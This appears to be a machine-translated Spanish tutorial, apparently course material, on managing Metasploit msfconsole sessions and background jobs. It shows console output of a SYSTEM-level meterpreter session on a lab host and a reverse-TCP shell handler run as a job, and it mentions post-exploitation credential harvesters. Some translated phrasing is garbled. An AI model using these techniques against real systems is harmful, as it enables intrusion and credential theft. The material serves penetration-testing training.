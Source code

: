# Sesiones

MSFConsole puede administrar múltiples módulos al mismo tiempo. Esta es una de las muchas razones por las que proporciona al usuario tanta flexibilidad. Esto se hace con el uso de`Sessions`, que crea interfaces de control dedicadas para todos sus módulos implementados.

Una vez que se crean varias sesiones, podemos cambiar entre ellas y vincular un módulo diferente a una de las sesiones de fondo para ejecutarlas o convertirlas en trabajos. Tenga en cuenta que una vez que se coloque una sesión en el fondo, continuará ejecutándose y nuestra conexión con el host de destino persistirá. Sin embargo, las sesiones pueden morir si algo sale mal durante el tiempo de ejecución de la carga útil, lo que hace que el canal de comunicación se derrumbe.

---

# **Usando sesiones**

Mientras ejecutan cualquier exploits o módulos auxiliares disponibles en MSFConsole, podemos hacer antecedentes de la sesión siempre que formen un canal de comunicación con el host de destino. Esto se puede hacer presionando el`[CTRL] + [Z]`combinación de clave o escribiendo el`background`Comando en el caso de las etapas de meterpreter. Esto nos impulsará un mensaje de confirmación. Después de aceptar el aviso, nos llevarán de regreso al mensaje MSFConsole (`msf6 >`) e inmediatamente podrá iniciar un módulo diferente.

### **Listado de sesiones activas**

Podemos usar el`sessions`Comando para ver nuestras sesiones actualmente activas.

Sesiones

```
msf6 exploit(windows/smb/psexec_psh) > sessions

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)

```

### **Interactuar con una sesión**

Puedes usar el`sessions -i [no.]`comando para abrir una sesión específica.

Sesiones

```
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >

```

Esto es específicamente útil cuando queremos ejecutar un módulo adicional en un sistema ya explotado con un canal de comunicación estable formado.

Esto se puede hacer con antecedentes de nuestra sesión actual, que se forma debido al éxito de la primera exploit, buscando el segundo módulo que deseamos ejecutar y, si es posible por el tipo de módulo seleccionado, seleccionando el número de sesión en el que se debe ejecutar el módulo. Esto se puede hacer desde el segundo módulo`show options`menú.

Por lo general, estos módulos se pueden encontrar en el`post`categoría, refiriéndose a módulos posteriores a la explotación. Los principales arquetipos de módulos en esta categoría consisten en recolectores de credenciales, sugerencias de exploit locales y escáneres de red internos.

---

# **Trabajos**

Si, por ejemplo, estamos ejecutando un exploit activo en un puerto específico y necesitamos este puerto para un módulo diferente, no podemos simplemente terminar la sesión usando`[CTRL] + [C]`. Si hiciéramos eso, veríamos que el puerto aún estaría en uso, afectando nuestro uso del nuevo módulo. Entonces, en cambio, tendríamos que usar el`jobs`Comandar para mirar las tareas actualmente activas que se ejecutan en segundo plano y terminar las antiguas para liberar el puerto.

Otros tipos de tareas dentro de las sesiones también se pueden convertir en trabajos para ejecutarse en segundo plano sin problemas, incluso si la sesión muere o desaparece.

### **Ver el menú de ayuda del comando de trabajos**

Podemos ver el menú de ayuda para este comando, como otros, escribiendo`jobs -h`.

Sesiones

```
msf6 exploit(multi/handler) > jobs -h
Usage: jobs [options]

Active job manipulation and interaction.

OPTIONS:

    -K        Terminate all running jobs.
    -P        Persist all running jobs on restart.
    -S <opt>  Row search filter.
    -h        Help banner.
    -i <opt>  Lists detailed information about a running job.
    -k <opt>  Terminate jobs by job ID and/or range.
    -l        List all running jobs.
    -p <opt>  Add persistence to job by job ID
    -v        Print more detailed info.  Use with -i and -l

```

### **Ver el menú de ayuda del comando exploit**

Cuando ejecutamos una exploit, podemos ejecutarlo como un trabajo escribiendo`exploit -j`. Según el menú de ayuda para el`exploit`comando, agregando`-j`a nuestro orden. En lugar de solo`exploit`o`run`, "lo ejecutará en el contexto de un trabajo".

Sesiones

```
msf6 exploit(multi/handler) > exploit -h
Usage: exploit [options]

Launches an exploitation attempt.

OPTIONS:

    -J        Force running in the foreground, even if passive.
    -e <opt>  The payload encoder to use.  If none is specified, ENCODER is used.
    -f        Force the exploit to run regardless of the value of MinimumRank.
    -h        Help banner.
    -j        Run in the context of a job.

<SNIP

```

### **Ejecutar un exploit como un trabajo de fondo**

Sesiones

```
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444

```

### **Listado de trabajos en ejecución**

Para enumerar todos los trabajos en ejecución, podemos usar el`jobs -l`dominio. Para matar un trabajo específico, mire el índice no. del trabajo y usa el`kill [index no.]`dominio. Usar el`jobs -K`comandar matar todos los trabajos en ejecución.

Sesiones

```
msf6 exploit(multi/handler) > jobs -l

Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444

```

A continuación, trabajaremos con el extremadamente poderoso`Meterpreter`carga útil.